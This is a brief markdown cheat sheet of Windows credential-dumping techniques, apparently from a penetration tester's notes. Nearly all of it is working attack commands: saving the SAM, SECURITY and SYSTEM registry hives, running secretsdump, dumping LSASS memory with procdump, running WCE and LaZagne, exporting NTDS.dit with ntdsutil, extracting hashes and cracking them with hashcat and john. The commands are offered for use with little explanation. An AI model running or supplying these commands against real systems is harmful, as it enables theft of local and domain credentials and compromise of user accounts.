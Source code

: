 # Clear Text Credentials Dump on windows 

# Local Password dump

## Impacket

https://github.com/CoreSecurity/impacket

- get LSA secret keys from reg

```
reg save hklm\sam c:\temp\sam.save
reg save hklm\security c:\temp\security.save
reg save hklm\system c:\temp\system.save
```

- dump with impacket

```
impacket-secretsdump -sam /root/sam.save -security /root/security.save -system /root/Desktop/system.save Local
```

## Metasploit module

- post/windows/gather/lsa_secrets

## LSAsecrte binary

https://github.com/linuxmuster/lsaSecrets/blob/master/bin/lsaSecretRead.exe

``` lsaSecretRead.exe DefaultPassword ```

## LSASS process with processdump

```
procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
```

## WCE

- https://www.ampliasecurity.com/research/windows-credentials-editor/


```
wce.exe -w
```

## Credential manager

- https://github.com/AlessandroZ/LaZagne
```
lazagne all 
```

## Nishan framework

- https://github.com/samratashok/nishang

## Group Policy Preference 

- metasploit module

``` post/windows/gather/credentials/gpp ```

# Domain Password dump

- Export NTDS with ntdsutil

```
ntdsutil “ac i ntds” “ifm” “create full c:\temp” q q
```

- install esdbexport
  - https://github.com/libyal/libesedb/releases/download/20170121/libesedb-experimental-20170121.tar.gz
```
sudo apt-get install autoconf automake autopoint libtool pkg-config
```
- Dump Tables
```
/usr/local/bin/esedbexport -m tables ntds.dit
```

- install ntdsextract

  - https://github.com/csababarta/ntdsxtract
  - need datatable, link_table, system hive

```
dsusers.py <datatable> <link_table> <output_dir> --syshive <systemhive> --passwordhashes <format options>
```
format options is john, ocl ,ophc

- crack with hashcat , john 

```
hashcat -m 1000 output/ntout --username /path/to/wordlist

john –rules=all –fork=2 NT.out
```

## Reference 
- https://pentestlab.blog/2018/04/04/dumping-clear-text-credentials/
- https://blog.ropnop.com/extracting-hashes-and-domain-info-from-ntds-dit/
